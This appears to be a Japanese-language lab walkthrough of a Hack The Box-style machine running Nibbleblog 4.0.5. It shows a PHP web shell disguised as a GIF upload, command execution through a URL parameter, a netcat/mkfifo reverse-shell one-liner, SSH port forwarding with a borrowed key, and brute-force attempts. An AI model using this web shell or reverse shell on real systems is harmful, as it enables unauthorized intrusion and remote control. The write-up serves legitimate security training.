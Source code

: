 # nibbles
- nmap > port80が開放されているのでブラウザで確認  
- Burp Suite > Repeater   
	- Apachのバージョン、OS等がわかる  
	- コメントで`/nibbleblog deirectory`が確認できる  
- IP+/nibbleblogをアドレスバーに入力するとWeｂページがnibbleblogでてきていることがわかる  
- Nibbleblogを検索するとVer4.0.5がダウンロードできるのでダウンロードしてみる
```
grep -R | awk -F: '{print $1}' | uniq
```
>-R 再帰的
>-F フィールの区切り記号、次に区切りたい文字列  
>$1　最初の一致   
>uniq 重複している行を削除
- /admin/boot/rules/98-constants.bitの内容を確認
- /admin/boot/rules/98-constants.bitをアドレスバーに入力
	- version,name,release_data,buildが確認できる
- searchsploitでnibbleblogを検索
-  検索結果RubyファイルでExploitできそうだがMetasploitを使用しているので参照しているブログを見てみる
-  画像ファイルのアップロードが可能
-  プラグインシェルをアップロードしてこのディレクトリにアクセスしてログインする方法を見つける
-  admin.phpにアクセスする
-  update.phpにアクセスしてみるとリングがありupdateのURLがある
-  オープンディレクトリが表示されuser.xmlにユーザー名管理IDが取得できる
-  HydraでBFすると"Blacklist protection"でログインできなくなる
-  別の方法を探すローカルポートフォワーディングを実行
-  falafelででてきたssh keyを使ってssh接続を実施する(==なぜこれを使った？==)
```
ssh -i falafel/root.key -L9000:10.10.10.75:80 10.10.10.73
```
※falafelは別のBox
- nibbleblogのサイトに行きインストール手順を確認する
- プラグインで画像がアップロードできるのでスクリプトを含んだ偽画像ファイルを作成する
```
GIF8;
<?php echo system($_REQUEST[`ipp`]); ?>
```
- ファイルのアップロード先を確認する(/nibbleblog/content/private/plugins/my_image)
- アドレスバーに
```
?ipp=whoami
```
でコマンド実行できる
- pentestmonkeyのnetcatのリバースシェルを利用する
- リスナーを起動しておく
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
>間違ったバージョンのnetcatがインストールされていても上記のコマンドでほとんどう機能する
- 初期シェルが取れる
- rootはsudo -lが使える　
- /usr/share/linux-exploit-suggester/linux-exploit-suggester.shを利用して特権昇格の情報を集める方法もある